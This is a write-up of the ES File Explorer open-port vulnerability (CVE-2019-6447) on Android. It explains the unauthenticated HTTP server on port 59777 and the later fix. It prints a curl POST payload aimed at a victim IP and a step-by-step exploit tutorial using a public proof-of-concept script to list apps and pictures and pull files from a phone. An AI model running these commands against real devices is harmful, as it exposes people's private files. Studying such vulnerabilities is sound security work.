 # ES File Explorer Open Port Vulnerability (CVE-2019-6447)

If you are using the ES File Explorer on your Android phone you were just exposed to a huge vulnerability. It is fixed now (update your device!), but customers of the PRO version still seem to be exposed. What was the problem? Let's have a look!

### ES File Explorer

The ES File Explorer is one of the most commonly used external File Management Applications for Android. It can be used to manage files, apps, cloud services and allows you to access your phone storage via Wi-Fi from another device. It was downloaded over 100 Million times and had a major security issue in version 4.1.9.7.4.]

![alt](https://github.com/sbleh/wireshark_presentation/blob/master/Screenshot_20190313-125251.jpg?raw=true)

      

## CVE-2019-6447 Vulnerability

The vulnerability CVE-2019-6447 was published by a hacker with the alias *fs0c131y* and has a CVE v3.0 score of 8.1. A hacker can have access to files or execute applications on the victims phone if he is in the same local network.

Every time a user launches ES File Explore a **hidden HTTP server starts** as well. This server opens **port 59777** locally:

```
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

Furthermore, the server **accepts JSON payloads from unauthenticated sources**:

```
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```

This allows attackers to gain access of and control over confidential data on the victim’s phone. The HTTP server is accessible to everybody in the local network and even remains open after the app is closed.


# What can be exploited? 
- Succesfull exposure of this vulnerability can result in the disclosure of sensitive information as follows :-
   - List all the files in the sdcard in the victim device
   - List all the pictures in the victim device
   - List all the videos in the victim device
   - List all the audio files in the victim device
   - List all the apps installed in the victim device
   - List all the system apps installed in the victim device
   - List all the phone apps installed in the victim device
   - List all the apk files stored in the sdcard of the victim device
   - List all the apps installed in the victim device
   - Get device info of the victim device
   - Pull a file from the victim device
   - Launch an app of your choice
   - Get the icon of an app of your choice
    
    ![alt](https://pbs.twimg.com/media/DxBVM0fWkAE9j4Z.jpg:large)
# CVE score of CVE-2019-6447 
The ES File Explorer File Manager application through 4.1.9.7.4 for Android allows remote attackers to read arbitrary files or execute applications via TCP port 59777 requests on the local Wi-Fi network. This TCP port remains open after the ES application has been launched once, and responds to unauthenticated application/json data over HTTP.This leads to CVE score of 8.1.
![alt](https://github.com/sbleh/wireshark_presentation/blob/master/CVE%20score.jpg?raw=true)

## Tutorial of the Exploit

The TCP port remains open after the ES File explorer application has been launched once on the victim's Android phone. This allows hacker to gain access over the victim's mobile. The hacker can easily check the device information, list all the applications, download a picture and all of the exploits mentioned above. 

The POC script for this exploit is availiable on ![github](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln). Clone the repository using terminal to get the POC script. To run this script, the hacker connected on the same local network should have some python packages installed in its machine. Use the following command to install the packages.

```
pip install -r requirements.txt
```
After successfull installation of packages, the hacker can easily get the device information like local IP of device and model of the device.
```
python poc.py --cmd getDeviceInfo
```
![alt](https://github.com/sbleh/wireshark_presentation/blob/master/ES1.JPG?raw=true)

The hacker can also list all the installed applications on victims smart phone.
```
python poc.py --cmd listApps --network 192.168.0.
```
![alt](https://github.com/sbleh/wireshark_presentation/blob/master/ES2.JPG?raw=true)

The hacker can list all the pictures in the victims mobile phone and can also download any picture.
```
python poc.py --cmd listPics --network 192.168.0.
python poc.py -g /sdcard/Download/images.jpg --network 192.168.0.
```
For all other exploits, following command can be used. For more detailed information, check out the github link mentioned above.
```
python poc.py list
```
![alt](https://github.com/sbleh/wireshark_presentation/blob/master/ES3.JPG?raw=true)

## Comments and Conclusion 

- Another local vulnerability was found in ES file explorer app: MITM 
- Man-In-The-Middle: Attacker connected to the same local network can intercept HTTP traffic and exchange it for his own.

- ES file explorer got updated and vulnerabilities got fixed. 

- New version is available online ES File Explorer v4.1.9.9, where they have confirmed fixing the HTTP vulnerability in LAN. 

##### Was this on purpose?
- Discussion on twitter indicates that ES File Explorer vulnerability was done intentionally. 
 
![alt](https://github.com/sbleh/wireshark_presentation/blob/master/pasted%20image%200.jpg?raw=true)

##### Other application 
- ES File Explorer/Manger PRO version had vulnerabilities and was not updated for long time.  
      
